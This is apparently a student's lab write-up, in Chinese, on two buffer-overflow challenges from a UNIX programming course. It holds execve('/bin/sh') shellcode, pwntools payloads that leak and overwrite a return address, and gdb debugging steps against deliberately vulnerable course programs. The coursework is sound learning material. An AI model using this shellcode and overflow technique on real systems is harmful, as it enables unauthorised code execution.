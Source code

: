 # Lab5 Buffer overflow

## Challenge #1 Shellcode
>  try to invoke a shell, e.g., /bin/sh
```c
int main() {
	char buf[512];
	shellcode_t code = (shellcode_t) buf;

	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);

	if(getenv("NO_SANDBOX") == NULL)
		sandbox();

	printf("Enter your code> ");
	read(0, buf, sizeof(buf));
	code();

	return 0;
}
```
只需將網路上查到的/bin/bash的shellcode直接輸入到code裡面即可
https://github.com/imbianyunren/Adv_UNIX_2024/blob/main/Lab5/chal_1.py
可以使用asm實作 或是直接拿別人寫好一行的code
```python
codes = """
    xor rsi,rsi
	push rsi
	mov rdi,0x68732f2f6e69622f
	push rdi
	push rsp
	pop rdi
	push 59
	pop rax
	cdq
	syscall
"""
payloads = asm(codes)
```
```python!
payloads = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
```

## Challenge #2 buffer overflow with no canary
我把注解放在原始code裡面
```c=!
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <seccomp.h>
#include <sys/mman.h>

static char msg[512];

int task() {
	char buf[32]; // buffer只有開32

	printf("===========================================\n");
	printf("Welcome to the UNIX Hotel Messaging Service\n");
	printf("===========================================\n");

	printf("\nWhat's your name? ");
	read(0, buf, 256); // buffer只有開32，可是這裡可以輸入256bytes, 可以從這裡輸入超過buf大小的內容
	printf("Welcome, %s", buf); // 這邊有機會能夠吐出後面多餘的內容(因為read會一路讀到記憶體內容為0為止)

	printf("\nWhat's the room number? ");
	read(0, buf, 256);
	printf("The room number is: %s", buf);

	printf("\nWhat's the customer's name? ");
	read(0, buf, 256);
	printf("The customer's name is: %s", buf);

	printf("\nLeave your message: ");
	read(0, msg, sizeof(msg)); //msg這個參數有使用mrprotect賦予exec參數，所以要把/bin/sh的shellcode放在這裡
	printf("Thank you!\n");

	return 0;
}

int main() {
	setvbuf(stderr, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin,  NULL, _IONBF, 0);
	if(mprotect((void *) (((long) msg) & 0xfffffffffffff000L), 4096, PROT_READ|PROT_WRITE|PROT_EXEC) != 0) {
		perror("mprotect");
	} else {
		task();
	}
	return 0;
}
```
整體來說基本上是利用buf這個參數會overflow吐出記憶體後面的內容
```python=
payloads = b'A'*40 
r.recvuntil(b'name? ')
r.send(payloads)

z = r.recvline()
print(z)
print(u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00')))
addr = u64(z.split(b'A'*40)[1][:-1].ljust(8,b'\x00'))
print(hex(addr))
```
老師一開始是說直接在buf送40個A去看會吐出甚麼:
```!
b'Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe4\xaa\xa0\xa5\xc4\x7f\n'

0x7fc4a5a0aae4 <-後面吐出來的hex
```

可以看到後面吐出一串東西，再從gdb-peda設斷點在`main`, `read(0, buf, 256)`來觀察記憶體內容
```
In terminal
-> gdb
-> file ./bof1
-> b 22 (read(0, buf, 256))
-> b 23 (輸入完觀察記憶體用)
-> b 35
-> r
```

執行run後可以看到要輸入buf的位置在rbp-0x20(32)，這也是為什麼要輸入40個字(A)，因為蓋過去後後面輸出的內容就會是rbp+08(return address)

![image](https://hackmd.io/_uploads/SyQXF824R.png)


OR可以在輸入完40個A後在gdb輸入`x/32x $rsp`看現在stack裡面內容
![image](https://hackmd.io/_uploads/r1NUfv2EA.png)

從下面圖(老師上課的圖不是題目的)可以看到rbp+08存的是return address，最後task()執行完要回main的時候會來這裡照rbp+08裡面地址執行
![image](https://hackmd.io/_uploads/B1F2tI34A.png)


(更: 測試時發現gdb執行他發現溢位的話會變成`7ffff7f2ea0a`，但如果是在./chal_1.py執行時會正常溢出要的位置，所以**7ffff7f2eae4才是ret address**)
所以`7ffff7f2eae4`就是return address，且也是在輸入40個A後後面會吐出的字串內容
![image](https://hackmd.io/_uploads/SJcdiw2NA.png)


那msg的地址在哪裡?把斷點設`在35行	printf("Thank you!\n");`看看
他會執行到`leave message:`，接著在這邊輸入隨便一組字`('123')`，在下一行到print(thank you)會停下
![image](https://hackmd.io/_uploads/B1v_bvn4C.png)
此時看剛輸入的`123`就在`$rsi`裡，msg地址是`0x7ffff7ff91e0`

所以我們從中得到:
Return Address: $rbp+8 = 0x7ffff7f2eae4
msg Address: 0x7ffff7ff91e0
兩者距離: 
Hex value: 7ffff7ff91e0 – 7ffff7f2eae4 = **CA6FC**

### 攻擊邏輯
1. 第一次輸入buf時取得ret addr = 7ffff7f2eae4
2. 將前面計算好ret addr與msg距離放入下一次要輸入buf的payload
```python
msg = addr + int("0xCA6FC",16) #msg addr
payloads = b'A'*40 + p64(msg, endian='little')
r.send(payloads)
```
3. 在leave msg那行放入shellcode
```python
r.send(shellcode)
```
4. 等最後要return時就會直接去執行msg的地址，也就是shellcode
5. 測試ls, cat file可不可以執行
![image](https://hackmd.io/_uploads/HJqfawnVC.png)


